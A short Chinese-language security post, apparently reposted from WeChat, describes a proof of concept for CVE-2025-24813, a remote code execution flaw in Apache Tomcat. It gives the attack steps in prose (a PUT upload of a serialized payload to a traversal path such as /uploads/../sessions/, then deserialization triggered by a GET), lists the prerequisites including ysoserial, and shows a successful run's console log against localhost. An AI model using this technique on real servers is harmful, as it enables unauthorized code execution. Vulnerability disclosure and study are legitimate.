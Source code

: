 > **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzg2NTk4MTE1MQ==&mid=2247487498&idx=1&sn=6909e947d5d01d4f63c065b565f63d70

#  CVE-2025-24813 Apache Tomcat RCE  
 TtTeam   2025-06-22 17:02  
  
利用 Apache Tomcat 中的远程代码执行 (RCE) 漏洞 CVE-2025-24813 进行概念验证 (PoC)。该漏洞允许攻击者将恶意序列化的有效负载上传到服务器，并在满足特定条件时通过反序列化实现任意代码执行。  
  
CVE-2025-24813是 Apache Tomcat 中的一个理论上的 RCE 漏洞，该漏洞利用了对上传会话文件和反序列化机制的不当处理。通过将精心设计的负载上传到可写目录（例如/uploads/../sessions/），攻击者可以触发反序列化，从而在目标服务器上执行任意命令。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0HlywncJbB1BWA2iaJfo4q3h3ib35ndnzFQyPd73t9VFDn0ExzVuckf4aISRjEo46hic9QzJwGnxs4ecCSZSaz9ew/640?wx_fmt=png&from=appmsg "")  
  
利用该漏洞，必须满足以下条件：  
- Apache Tomcat 版本：目标必须运行有漏洞的 Apache Tomcat 版本。  
  
- 可写目录：服务器必须允许 PUT 请求  
  
- 反序列化触发器：服务器必须处理上传的会话文件（例如，通过 GET 请求/index.jsp）并触发有效载荷的反序列化。  
  
- Java 环境：攻击者的机器必须安装 Java 才能使用ysoserial或编译基于 Java 的有效载荷生成有效载荷。  
  
- ysoserial（可选）：如果使用ysoserial有效载荷类型，则该ysoserial.jar文件必须在本地可用。  
  

```
[+] Server is writable via PUT: http://localhost:8081/check.txt
[*] Session ID: absholi7ly
[+] Payload generated successfully: payload.ser
[+] Payload uploaded with status 409 (Conflict): http://localhost:8081/uploads/../sessions/absholi7ly.session
[+] Exploit succeeded! Server returned 500 after deserialization.
[+] Target http://localhost:8081 is vulnerable to CVE-2025-24813!
[+] Temporary file removed: payload.ser
```

  
  
